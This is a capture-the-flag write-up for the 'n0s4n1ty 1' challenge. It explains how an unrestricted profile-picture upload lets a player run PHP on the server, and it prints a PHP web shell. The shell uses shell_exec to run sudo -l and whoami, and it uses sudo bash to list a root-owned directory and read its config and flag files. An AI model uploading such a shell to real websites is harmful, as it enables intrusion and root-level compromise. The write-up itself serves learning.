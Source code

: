 # TITLE : n0s4n1ty 1
## Author : Prince Niyonshuti N.
## Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the **/root** directory.
You can access the web application here!
## Hints
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check sudo -l
## Solution
In this challenge, the website allows users to upload a profile picture. However, instead of restricting uploads to images only, it accepts any file type. This is a vulnerability we can exploit.

By uploading a .php file, we can execute arbitrary PHP code on the server. From the hint provided, we know that we can run the sudo -l command, which is a Linux command to list allowed sudo privileges. This implies we can execute system commands through the PHP file.

Below is the PHP script I used:
```php
<?php
// Check what sudo commands are allowed
echo shell_exec("sudo -l");

// Display current user
echo "Current user: " . shell_exec("whoami");

// Try running a command as root
echo "Root check: " . shell_exec("sudo whoami");

// Navigate to the challenge directory and list its contents
echo shell_exec("sudo bash -c 'cd /challenge && pwd && ls -la && cat config-box.py && cat metadata.json'");
?>
```

From the output of sudo -l, we can determine what commands we're allowed to run with elevated privileges. We also find that there is a /challenge directory in the root, which contains files like metadata.json. By reading that file, we can retrieve the flag.


